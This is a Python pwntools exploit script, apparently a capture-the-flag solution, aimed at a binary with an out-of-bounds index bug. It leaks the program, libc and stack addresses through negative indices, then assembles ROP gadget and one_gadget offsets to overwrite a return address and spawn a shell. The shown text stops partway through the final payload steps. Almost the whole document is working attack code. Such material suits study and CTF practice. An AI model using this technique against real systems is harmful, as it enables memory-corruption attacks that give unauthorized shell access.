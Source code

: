 ```python=
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*main+368
        b*main+542
        b*main+433
        b*scanf+198 
        b*main+628
        c
        ''')
        input()


if args.REMOTE:
    p = remote('')
else:   
    p = process([exe.path])
GDB()
# [rax*8 + rdx]
# Use oob at choice 1 can leak main address (idx: -11) and libc address (idx: -16) rbp leak (idx: -6)
sla(b'> ',b'1')
sla(b'idx: ',b'-11')
ru(b'index -11 is ')
main = int(rl())
info("Main leak: "+hex(main))
exe.address = main - 0x1682

sla(b'> ',b'1')
sla(b'idx: ',b'-16')
ru(b'index -16 is ')
libc_leak = int(rl())
info("Libc leak: "+hex(libc_leak))
libc.address = libc_leak - 0x29d90 

sla(b'> ',b'1')
sla(b'idx: ',b'-6')
ru(b'index -6 is ')
rbp = int(rl())
info("RBP leak: "+hex(rbp))

info("Exe base: "+hex(exe.address))
info("Libc base: "+hex(libc.address))


# Get shell
#Invest the scanf func, it will ret to the addr on stack at 0x7fffffffdd78 and it is idx -5
#So we'll ovww it by a addr of gadget
syscall = libc.address +0x29db4
prdi = libc.address + 0x2a3e5
prsi = libc.address + 0x2be51
ret = libc.address + 0x29139 
one = libc.address + 0xebc88
prcx_rbx = libc.address + 0x108b04

#get_shell = p64(ret) + p64(prsi) + p64(0) + p64(one)
# sla(b'> ',b'2')
# sla(b'idx: ',b'--2') # #idx = (adr[idx=0] - adr[adx=n])/8
# sla(b'Enter price: ',f'{ret}'.encode())

# sla(b'> ',b'2')
```